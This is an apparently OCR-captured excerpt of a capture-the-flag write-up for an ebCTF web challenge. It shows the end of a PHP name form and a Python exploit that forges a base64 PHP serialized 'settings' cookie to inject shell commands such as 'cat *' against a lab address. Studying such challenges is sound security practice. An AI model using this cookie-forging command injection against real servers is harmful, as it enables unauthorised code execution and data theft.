 ```
else {
echo "</pre>
<form action="\&quot;?\&quot;" method="\&quot;POST\&quot;">\n";
echo "
What is your name?

\n";
echo "<input type="\&quot;text\&quot;" name="\&quot;name\&quot;" />\n";
echo "<input type="\&quot;submit\&quot;" name="\&quot;submit\&quot;" value="\&quot;Submit\&quot;" />\n";
echo "</form>
<pre>
\n";
}
?>

```

**Exploit:**

```
#!/usr/bin/python
import requests
import sys
import urllib
from base64 import b64decode as dec
from base64 import b64encode as enc

url = 'http://192.168.184.133/ebctf/mine.php'

def Test(x):
    t = "echo 'Hello %s!'" % x
    s = 'a:2:{s:4:"name";s:%s:"%s";s:8:"greeting";s:%s:"%s";}%s' % (len(x),x,len(t),t, 'X'*40)
    for i in xrange(0,len(s),16):
        print s[i:i+16]
    print '\n'

def Pwn(s):
    global url
    s = urllib.quote_plus(enc(s))
    req = requests.get(url, cookies = {'settings' : s}).content
 #   if req.find('works') != -1:
    print req
  #  else:
   #     print '[-] FAIL'

def GetCookie(name):
    global url
    d = {
        'name':name,
        'submit':'Submit'
    }
    h = requests.post(url, data = d, headers = {'Content-Type' : 'application/x-www-form-urlencoded'}).headers
    if h.has_key('set-cookie'):
        h = dec(urllib.unquote_plus(h['set-cookie'][9:]))
        #h = urllib.unquote_plus(h['set-cookie'][9:])
        #print h
        return h
    else:
        print '[-] ERROR'
        sys.exit(0)

#a:2:{s:4:"name";s:10:"X;cat *;#a";s:8:"greeting";s:24:"echo 'Hello X;cat *;#a!'";}
```